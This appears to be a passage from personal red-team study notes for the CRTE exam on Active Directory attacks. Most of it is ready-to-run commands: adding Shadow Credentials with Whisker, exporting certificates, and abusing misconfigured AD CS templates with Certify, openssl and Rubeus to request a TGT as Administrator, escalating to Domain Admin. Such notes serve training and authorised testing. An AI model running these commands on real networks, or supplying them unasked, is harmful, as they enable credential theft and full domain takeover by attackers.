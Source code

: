 **Adding Shadow Credentials**

```powershell
# Add Shadow Credential on target object
Whisker.exe add /target:0xd4y_target_user

# Check if msDS-KeyCredentialsLink attribute present on target (use Get-DomainComputer in case of a computer account)
Get-DomainUser -Identity 0xd4y_target_user 
```

## Certificate Service

- certificate can  be used for authentication, encryption, signing, etc.
- check for certificates stored in local machine with `ls cert:\LocalMachine\My` and then export it with `ls cert:\LocalMachine\My\<THUMBPRINT> | Export-PfxCertificate -FilePath C:\PATH\TO\SAVE\cert.pfx -Password (ConvertTo-SecureString -String 'SubscribeTo0xd4y' -Force -AsPlainText)`
    - then request TGT using `Rubeus.exe asktgt /user:pawadmin /certificate:cert.pfx /password:SubscribeTo0xd4y /nowrap /ptt`

AD CS can be abused to:

1. Extract user and machine certificates
2. Retrieve NTLM hashes
3. User and machine level persistence
4. Escalation to DA and EA
5. Domain persistence

![Untitled](CRTE%20Notes%20d90ebe33f6774189b29f11b6f3b0175b/Untitled%201.png)

- can use certify.exe to find misconfigured templates (`certify.exe find`)
    - note that the `/vulnerable` flag only shows certificates in which domain users or default users group has enrollment rights

Common misconfigurations:

1. CA or target templates gives low-privileged user enrollment rights
2. Manager approval is disabled
3. Authorization signatures not required

**********************Escalating to DA from CERT**********************

```powershell
# Get information for certs with msPKI-Certificates-Name-Flag set to ENROLLEE_SUPPLIES_SUBJECT
Certify.exe find /enrolleeSuppliesSubject

# Request cert, save text between BEGIN RSA PRIVATE KEY and END CERTIFICATE to a file (e.g. cert.pem)
Certify.exe request /ca:<CA_NAME> /template:<CERT_TEMPLATE> /altname:Administrator 

# Convert to pfx and name password as Follow0xd4y
openssl.exe pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out admin.pfx

# Request TGT
Rubeus.exe asktgt /user:Administrator /certificate:admin.pfx /password:Follow0xd4y /nowrap /ptt
```
